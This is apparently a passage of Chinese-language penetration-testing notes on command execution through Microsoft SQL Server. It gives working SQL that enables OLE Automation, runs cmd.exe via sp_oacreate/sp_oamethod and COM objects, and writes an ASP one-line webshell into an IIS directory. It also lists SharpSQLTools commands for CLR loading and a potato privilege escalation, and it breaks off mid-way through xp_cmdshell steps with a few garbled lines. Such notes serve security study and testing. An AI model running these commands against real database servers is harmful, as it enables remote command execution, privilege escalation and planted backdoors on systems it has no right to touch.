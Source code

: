     组合`sp_oacreate`,`sp_oamethod`可执行命令无回显

  ```sql
  #启用sp_oacreate
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE WITH OVERRIDE;
  EXEC sp_configure 'Ole Automation Procedures',1;
  RECONFIGURE WITH OVERRIDE;
  c:/IISRootTest
  #利用mssql定义变量shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c whoami > c://1.txt'
  
  #写一句话木马webshell
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/IISRootTest/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  
  #组合sp_oacreate和sp_oamethod利用com组件执行命令
  declare @luan int,@exec int,@text int,@str varchar(8000);
  exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
  exec sp_oamethod @luan,'exec',@exec output,'C:/windows/system32/cmd.exe /c whoami';
  exec sp_oamethod @exec,'StdOut',@text out;exec sp_oamethod @text,'readall',@str out;
  select @str;
  
  #SharpSQLTools工具利用sp_oacreate执行命令
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_ole
  SharpSQLTools.exe 192.168.1.1 tomato tomato master sp_oacreate whoami
  ```

------

#### 本地存储过程

- 本地存储过程指用户创建的自定义存储过程.如:`CLR`

- `CLR`:公共语言基础结构(Common Language Infrastructure),用来支持不同的编程语言.sql server集成了该组件,可以通过sql server执行编写CLR执行系统命令

- SharpSQLTools实现上传下载文件,`xp_cmdshell`与`sp_oacreate`双回显和clr加载程序执行响应的操作

- ```sql
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master install_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master clr_efspotato whoami
  ```

  ##### xp_cmdshell`利用`

  - 当前用户拥有`DBA权限`
  - 依赖于`xplog70.dll`
  - 存储过程`存在`并`已启用`

- xp_cmdshell存储过程可以执行系统命令,默认支持输出执行结果

- 从`MSSQL_2005`版本之后默认处于禁用状态,可以使用`sp_configure`来启用或者禁用`xp_cmdshell`

```sql
#xp_cmdshell利用

#判断当前是否为DBA权限,返回1即为sysadmin
select IS_SRVROLEMEMBER('sysadmin');
#查看是否存在xp_cmdshell,返回1则存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshellhell'
#开启xp_cmdshell
  ```